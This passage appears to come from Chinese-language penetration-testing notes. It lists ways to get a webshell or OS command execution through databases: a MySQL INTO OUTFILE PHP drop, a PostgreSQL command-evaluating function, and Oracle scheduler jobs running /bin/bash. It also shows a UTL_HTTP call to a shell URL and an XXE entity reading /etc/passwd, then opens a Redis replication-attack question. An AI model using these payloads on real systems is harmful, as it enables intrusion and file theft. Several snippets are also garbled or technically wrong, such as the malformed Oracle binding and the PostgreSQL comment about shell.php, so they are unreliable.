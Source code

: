 ```plsql
SELECT '<?php phpinfo(); ?>'  INTO OUTFILE '/var/www/shell.php' 
```


#### 3. PostgreSQL WEBSHELL
```plsql
CREATE TABLE cmd(input text); 
INSERT INTO cmd VALUES('whoami');

CREATE or REPLACE FUNCTION sys_eval(IN sql text) RETURNS text AS 
$$ 
DECLARE 
  result text;
BEGIN
  EXECUTE sql INTO result;
  RETURN result;
END;
$$ language plpgsql;

SELECT sys_eval((SELECT input FROM cmd));
//访问`http://xxx.com/shell.php?id=1`,返回PostgreSQL用户名。
```


#### 4. Oracle WEBSHELL
```plsql
CREATE TABLE shell (cmd VARCHAR2(200));
INSERT INTO shell VALUES('HOST whoami');

DECLARE 
  output VARCHAR2(200);  
BEGIN
  EXECUTE IMMEDIATE 'BEGIN dbms_scheduler.run_job(''SHELLJOB'', NULL, TRUE); END;' USING OUT output;
  dbms_output.put_line(output); 
END;
/

- 使用UTL_HTTP访问外部URL执行命令:
BEGIN
UTL_HTTP.request('http://ip/shell.php?cmd=whoami');
END;  

- 使用SCHEDULER JOB执行OS命令:
BEGIN
DBMS_SCHEDULER.CREATE_JOB (
job_name => 'shelljob',
job_type => 'EXECUTABLE',
job_action => '/bin/bash',  
enabled => TRUE);
COMMIT;
END;  

- 使用DBMS_XSLPROCESSOR XML外部实体注入:
<!DOCTYPE x [ <!ENTITY % ext SYSTEM "file:///etc/passwd"> %ext; ]>   
<p>&#x25a0;</p> 
```
### 3. redis未授权， redis 怎么去做攻击，主从复制利用条件，为什么主从复制可以做到拿 shell，原理是什么，主从复制会影响业务吗，主从复制的原理是什么？  
